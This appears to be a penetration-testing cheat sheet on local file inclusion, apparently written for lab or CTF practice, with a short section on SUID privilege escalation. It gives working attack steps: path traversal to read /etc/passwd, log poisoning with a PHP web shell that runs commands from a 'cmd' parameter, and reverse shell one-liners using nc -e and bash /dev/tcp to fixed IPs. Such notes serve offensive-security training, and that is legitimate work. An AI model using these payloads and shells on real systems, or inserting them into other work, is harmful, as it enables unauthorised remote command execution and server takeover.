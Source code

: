 

# File Inclusion Attacks

## Locate

1. Examine the URLs of pages on the website.  Look for pages with parameters in the URL, which will be preceded with a `?` or an `&`.  
   Example: http://www.site.com/index.php?param1=page.php&param2=somevalue
2. Some parameters only pass text while others specify pages to include.  The most likely candidates for a path traversal vulnerability will be parameters that are loading a file with an extension.  
3. Test likely parameters by loading known files like `/etc/passwd`.  Remember to prepend this path with `../` to override the current working directory.  It's usually safest to just spam the path with `../` because you can't have too many prepended.
   Example: http://www.site.com/index.php?param1=../../../../../../../etc/passwd

### Web Scanning

Web scanners simply take a wordlist and append it to the end of the specified URL, trying to load the URL and checking the response.   You should always scan web servers to see if there are any unlinked, hidden folders or files.

Wordlists may contain filenames (ex: `file.txt`) and folders.  Understand that the scanner takes whatever is in the wordlist and appends it to the URL to scan. 

By default, dirb scans recursively, which means every folder it finds initiates another full scan of the folder.  A basic scan of one folder (without recursion) can be started with this:

```bash
# Uses /usr/share/dirb/wordlists/common.txt by default
dirb -r http://IP-OR-HOSTNAME/PATH
```

Alternate wordlists can be specified as well:

```bash
# Specify another wordlist
dirb -r http://IP-OR-HOSTNAME/PATH -w PATH_TO_WORDLIST
```

## Inject

There are multiple ways to inject code into a system.  If file uploads are available, you can simply upload a file with the code, but this is rare.  Generally, on-system log files are 'poisoned' with malicious code and those log files are loaded to make the code execute.

1. After discovering a path traversal vulnerability, refer to the enumerated services on the server to discover any log files that may exist.  

2. Use Google to discover the default location of log files.  Most applications include a set of log files such as access and error logs.

3. Use the path traversal to try to load these log files to make sure you can access them.

4. Choose a log file that you can add data to by interacting with the server.  Likely candidates are access logs or auth logs, which will capture the text a client sends to the server.

5. Determine what programming language the web server uses.  Apache general uses PHP while Microsoft IIS uses asp or aspx.  You can also examine the URLs to find extensions that will point you to the language the site uses.

6. Determine what you want to run on the site.  Below is a good block of code to use, which adds a `cmd` parameter to the page that loads it.  You can set this parameter to any command and it will be run.
   *Note: Always surround the code with unique markers to make it easier to find in the logs.*

   ```bash
   [CNM352] <?php echo shell_exec($_GET['cmd']);?> [CNM352]
   ```

7. Reload the log file and look for the markers.  The code will not appear because the page will render it, but if the markers made it in, the code should be there.

## Execute

1. Reload the poisoned file.  If using the code above, specify in the URL a command to run by assigning it to the cmd parameter:
   http://www.site.com/index.php?param1=../../../../../../../mylog.log&cmd=My Command

2. Of the command contains any of the special characters shown below, you may need to encode the command in URL encoding.  Use the 'Encoding' tab of Burp Suite to do this easily, then paste the encoded text after the `cmd=` to run it.
   ![image-20220426000425862](.9.File-Inclusion.assets/image-20220426000425862.png)

3. You can insert reverse shell commands using this cmd parameter as well:

   ```bash
   # If netcat is present
   nc -nv 10.250.226.250 8000 -e /bin/sh
   
   # If netcat is not present
   bash &>/dev/tcp/10.10.14.37/8000 <&1
   ```

# SUID Privilege Escalation

SUID allows a user to run a file as the owner of the file.  For files owned by root, this could present an opportunity for privilege escalation.

1. After gaining shell access, enumerate the system for SUID binaries.  This can be done with an enumeration script to get ideas of which ones are good candidates or it can be done manually with the command: 

   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. Search this site for SUID binaries to see if any provide a privilege escalation path:
   [https://gtfobins.github.io](https://gtfobins.github.io/)

   - Be sure to try other commands besides what is listed in the SUID section.  Sometimes you can run the commands listed in the sudo section even if you don't use sudo.

